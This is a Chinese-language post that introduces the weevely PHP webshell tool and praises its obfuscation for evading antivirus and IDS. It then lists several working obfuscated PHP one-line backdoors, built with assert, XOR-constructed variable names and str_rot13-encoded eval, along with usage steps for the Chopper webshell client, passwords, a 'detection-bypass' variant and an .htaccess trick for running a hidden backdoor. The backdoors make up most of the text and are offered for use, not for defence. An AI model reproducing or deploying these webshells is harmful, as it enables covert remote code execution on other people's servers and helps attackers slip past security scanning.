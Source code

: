 weevely 是一款针对 PHP 的 webshell 的自由软件，可用于模拟一个类似于 telnet 的连接 shell，weevely 通常用于 web 程序的漏洞利用，隐藏后门或者使用类似 telnet 的方式来代替 web 页面式的管理，weevely 生成的服务器端 php 代码是经过了 base64 编码的，所以可以骗过主流的杀毒软件和 IDS，上传服务器端代码后通常可以通过 weevely 直接运行。

weevely 所生成的 PHP 后门所使用的方法是现在比较主流的 base64 加密结合字符串变形技术，后门中所使用的函数均是常用的字符串处理函数，被作为检查规则的 eval，system 等函数都不会直接出现在代码中，从而可以致使后门文件绕过后门查找工具的检查。使用暗组的 Web 后门查杀工具进行扫描，结果显示该文件无任何威胁。

以上是大概介绍下边是截图，相关使用方法体验盒子就不在这介绍了，简单的科普一下。

**三个变形的一句话 PHP 木马**  
第一个

```
<?php ($_=@$_GET[2]).@$_($_POST[1])?>
```

在菜刀里写 http://site/1.php?2=assert 密码是 1

第二个

```
<?php
$_="";
$_[+""]='';
$_="$_"."";
$_=($_[+""]|"").($_[+""]|"").($_[+""]^"");
?>
<?php ${'_'.$_}['_'](${'_'.$_}['__']);?>
```

在菜刀里写 http://site/2.php?_=assert&__=eval($_POST['pass']) 密码是 pass。  
如果你用菜刀的附加数据的话更隐蔽，或者用其它注射工具也可以，因为是 post 提交的。

第三个

```
($b4dboy = $_POST['b4dboy']) && @preg_replace('/ad/e','@'.str_rot13('riny').'($b4dboy)', 'add');
```

str_rot13('riny') 即编码后的 eval，完全避开了关键字，又不失效果，让人吐血！

过狗免杀 PHP 一句话一枚
--------------

```
preg_replace( "/[errorpage]/e", @str_rot13( '@nffreg($_CBFG[cntr]);' ), "saft" );

//密码page
```

.htaccess 做 PHP 后门
------------------

这个其实在 2007 年的时候作者 GaRY 就爆出了，只是后边没人关注，这个利用关键点在于一句话：

```
AddType application/x-httpd-php .htaccess
###### SHELL ###### 这里写上你的后门吧###### LLEHS ######
```
